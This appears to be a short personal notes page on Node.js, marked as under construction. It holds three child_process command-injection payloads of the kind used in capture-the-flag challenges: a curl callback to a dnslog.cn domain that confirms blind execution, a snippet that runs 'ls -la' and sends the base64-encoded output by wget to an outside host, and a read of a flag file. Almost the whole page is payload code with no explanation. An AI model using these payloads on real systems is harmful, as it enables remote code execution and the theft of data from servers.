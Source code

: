 -
- [[JS/NodeJS]]
-
- # 施工中
	- ```js
	  require("child_process").spawn("curl", ["52s3km.dnslog.cn"]);
	  ```
	- ```js
	  require("child_process").spawn("ls", ["-la"]).stdout.on("data", data => {
	      require("child_process").spawn("wget", ["ca.xxx.xyz:3003", "--post-data", btoa(data)]);
	  });
	  ```
	- ```js
	  require("child_process").spawnSync(
	    'cat',
	    ['fl001g.txt']
	  ).stdout.toString()
	  
	  ```